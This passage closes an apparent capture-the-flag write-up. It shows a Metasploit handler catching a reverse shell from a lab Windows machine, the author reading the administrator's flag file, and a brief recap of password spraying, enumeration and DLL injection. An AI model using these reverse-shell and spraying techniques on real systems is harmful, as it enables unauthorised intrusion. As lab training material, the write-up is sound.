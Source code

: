 The metasploit handler is running simultaneously.

    :::text
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.56:4444
    [*] Command shell session 2 opened (10.10.14.56:4444 -> 10.10.10.169:50613) at 2019-12-12 03:46:20 -0500

    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
    type C:\Users\Administrator\Desktop\root.txt
    e1d94876a506850d0c20edb5405e619c


# Wrapping up

Getting the first user is quit easy if you use
[enum4linux](https://github.com/portcullislabs/enum4linux). You can even spray
the password by hand.
The second user is just enumeration. It can take a long time before enumerating
the right folder.
The root part is quit interesting and let me learn a few things about DLL
injection.


